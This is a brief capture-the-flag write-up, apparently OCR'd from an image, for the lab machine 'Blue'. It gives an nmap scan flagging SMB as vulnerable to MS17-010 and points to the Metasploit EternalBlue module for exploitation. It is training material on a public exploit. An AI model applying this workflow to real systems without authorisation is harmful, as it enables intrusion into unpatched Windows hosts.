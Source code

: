 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Blue
# 16/3/2023
10.10.10.40

----------------------------------------------------
# nmap
----------------------------------------------------
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
| smb-vuln-ms17-010: 
|   VULNERABLE:



----------------------------------------------------
# exploitation
----------------------------------------------------
msfconsole
use (windows/smb/ms17_010_eternalblue)
set variables and exploit

----------------------------------------------------
# priv esc
----------------------------------------------------
you are already root

